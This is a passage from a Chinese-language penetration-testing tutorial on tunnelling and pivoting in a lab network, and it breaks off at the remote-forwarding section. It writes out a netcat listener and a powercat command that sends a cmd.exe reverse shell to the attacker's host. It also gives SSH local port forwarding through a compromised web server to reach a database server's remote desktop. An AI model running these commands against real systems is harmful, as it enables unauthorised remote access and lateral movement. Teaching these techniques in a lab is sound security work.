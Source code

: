 攻击机先监听本机5555端口`nc -lpvv 5555`

靶机：

```powershell
powercat -c 192.168.1.4 -p 5555 -v -e cmd.exe
```

## 应用层

### 1.ssh

常见参数：

```sh
-C 压缩传输
-f 后台执行SSH
-N 建立静默连接
-g 允许远程主机连接本地用于转发的端口
-L 本地端口转发
-R 远程端口转发
-D 动态转发
-P 指定SSH端口
```

网络拓扑：

```
攻击机：192.168.1.4
web服务：192.168.1.5
数据库服务器：192.168.1.2

实验环境：攻击机无法访问数据库服务器，可以访问web服务器且已获得web服务器的权限，web服务器和数据库服务器可以互相访问

实验目标：通过本地端口转发，访问攻击机本地的5555端口便可以打开数据库服务器的远程桌面
```

#### 1.本地转发

在攻击机上：

`ssh -CfNg -L 5555:192.168.1.2:3389 root@192.168.1.5`(这条命令的意思就是攻击机去连接web服务器，连上之后由web服务器去连接数据库服务器的3389端口并把数据通过SSH通道传给攻击机)

之后会输入web服务器的密码，由于是静默模式，可以本地查看5555端口是否被监听来检查通道的建立是否正常

`netstat -tulnp | grep "5555"`

接下来攻击机访问本机5555端口即可打开数据库的远程桌面：

```sh
rdesktop 127.0.0.1:5555
```

#### 2.远程转发

在web服务器上：
